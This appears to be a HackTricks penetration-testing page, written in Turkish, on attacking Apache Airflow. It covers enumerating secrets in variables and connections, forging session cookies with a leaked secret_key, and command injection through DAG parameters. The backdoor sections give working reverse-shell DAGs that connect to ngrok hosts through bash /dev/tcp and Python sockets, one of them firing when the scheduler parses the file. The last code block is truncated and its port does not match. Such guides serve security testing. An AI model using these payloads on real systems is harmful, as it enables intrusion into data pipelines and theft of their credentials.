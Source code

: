# Apache Airflow Güvenliği

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

### Temel Bilgiler

[**Apache Airflow**](https://airflow.apache.org), **veri boru hatlarını veya iş akışlarını düzenlemek ve zamanlamak için bir platform** olarak hizmet vermektedir. Veri boru hatları bağlamında "orchestrasyon" terimi, çeşitli kaynaklardan gelen karmaşık veri iş akışlarını düzenleme, koordine etme ve yönetme sürecini ifade eder. Bu düzenlenmiş veri boru hatlarının temel amacı, işlenmiş ve tüketilebilir veri setleri sağlamaktır. Bu veri setleri, iş zekası araçları, veri bilimi ve makine öğrenimi modelleri gibi çok sayıda uygulama tarafından yaygın olarak kullanılmaktadır ve bunlar büyük veri uygulamalarının işleyişi için temeldir.

Temelde, Apache Airflow, bir şey (olay, cron) **gerçekleştiğinde kodun yürütülmesini zamanlamanıza** olanak tanır.

### Yerel Laboratuvar

#### Docker-Compose

Tam bir apache airflow docker ortamı başlatmak için [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) adresinden **docker-compose yapılandırma dosyasını** kullanabilirsiniz. (Eğer MacOS kullanıyorsanız, docker VM'ye en az 6GB RAM vermeyi unutmayın).

#### Minikube

**Apache Airflow'u çalıştırmanın** kolay bir yolu, **minikube ile çalıştırmaktır**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
### Airflow Yapılandırması

Airflow, yapılandırmasında **hassas bilgileri** saklayabilir veya zayıf yapılandırmalar bulabilirsiniz:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

### Airflow RBAC

Airflow'a saldırmaya başlamadan önce **izinlerin nasıl çalıştığını** anlamalısınız:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

### Saldırılar

#### Web Konsolu Sayımı

Eğer **web konsoluna erişiminiz** varsa, aşağıdaki bilgilerden bazılarına veya hepsine erişim sağlayabilirsiniz:

* **Değişkenler** (Özel hassas bilgiler burada saklanabilir)
* **Bağlantılar** (Özel hassas bilgiler burada saklanabilir)
* `http://<airflow>/connection/list/` adresinden erişin
* [**Yapılandırma**](./#airflow-configuration) (Hassas bilgiler, örneğin **`secret_key`** ve şifreler burada saklanabilir)
* **kullanıcılar & roller** listesini görüntüleyin
* **Her DAG'ın kodu** (ilginç bilgiler içerebilir)

#### Değişken Değerlerini Alma

Değişkenler Airflow'da saklanabilir, böylece **DAG'lar** değerlerine **erişebilir**. Bu, diğer platformların gizli bilgilerine benzer. Eğer **yeterli izinleriniz** varsa, bunlara `http://<airflow>/variable/list/` adresinden GUI'de erişebilirsiniz.\
Airflow varsayılan olarak değişkenin değerini GUI'de gösterir, ancak [**şuna**](https://marclamberti.com/blog/variables-with-apache-airflow/) göre, **değerinin** **yıldızlar** olarak görüneceği **değişkenler listesi** ayarlamak mümkündür.

![](<../../.gitbook/assets/image (164).png>)

Ancak, bu **değerler** hala **CLI** aracılığıyla (DB erişiminiz olmalı), **rastgele DAG** çalıştırarak, **API** ile değişkenler uç noktasına erişerek (API'nin etkinleştirilmesi gerekir) ve **hatta GUI'nin kendisiyle** **alınabilir!**\
Bu değerleri GUI'den erişmek için sadece **erişmek istediğiniz değişkenleri** seçin ve **Eylemler -> Dışa Aktar** seçeneğine tıklayın.\
Başka bir yol, **gizli değere** ulaşmak için **arama filtrelemesi** kullanarak **bruteforce** yapmaktır:

![](<../../.gitbook/assets/image (152).png>)

#### Yetki Yükseltme

Eğer **`expose_config`** yapılandırması **True** olarak ayarlandıysa, **Kullanıcı** rolünden ve **üzerinden** **web'deki yapılandırmayı** **okuyabilirler**. Bu yapılandırmada, **`secret_key`** görünür, bu da bu geçerli anahtara sahip herhangi bir kullanıcının **kendi imzalı çerezini oluşturup başka bir kullanıcı hesabını taklit edebileceği** anlamına gelir.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
#### DAG Arka Kapı (Airflow işçisinde RCE)

Eğer **DAG'ların kaydedildiği** yere **yazma erişiminiz** varsa, sadece **bir tane oluşturabilirsiniz** ve bu size bir **ters kabuk** gönderecektir.\
Bu ters kabuğun bir **airflow işçi konteyneri** içinde çalıştırılacağını unutmayın:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
#### DAG Arka Kapı (Airflow zamanlayıcısında RCE)

Eğer bir şeyi **kodun kökünde çalıştırılacak şekilde ayarlarsanız**, bu yazının yazıldığı anda, DAG'ın klasörüne yerleştirildikten birkaç saniye sonra **zamanlayıcı tarafından çalıştırılacaktır**.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
#### DAG Oluşturma

Eğer **DAG kümesindeki bir makineyi ele geçirirseniz**, `dags/` klasöründe yeni **DAG scriptleri** oluşturabilirsiniz ve bunlar **DAG kümesindeki diğer makinelere kopyalanacaktır.**

#### DAG Kod Enjeksiyonu

GUI'den bir DAG çalıştırdığınızda ona **argümanlar** **geçebilirsiniz.**\
Bu nedenle, eğer DAG düzgün kodlanmamışsa **Komut Enjeksiyonuna karşı savunmasız** olabilir.\
Bu, bu CVE'de olan bir durumdur: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

**DAG'lerde komut enjeksiyonları aramaya başlamak için bilmeniz gereken tek şey**, **parametrelerin** **`dag_run.conf.get("param_name")`** kodu ile **erişildiğidir.**

Ayrıca, aynı zafiyet **değişkenlerle** de meydana gelebilir (yeterli ayrıcalıklara sahip olduğunuzda GUI'de **değişkenlerin değerini kontrol edebilirsiniz**). Değişkenler **şu şekilde erişilir:**
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Eğer örneğin bir bash komutu içinde kullanılırlarsa, bir komut enjeksiyonu gerçekleştirebilirsiniz.

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
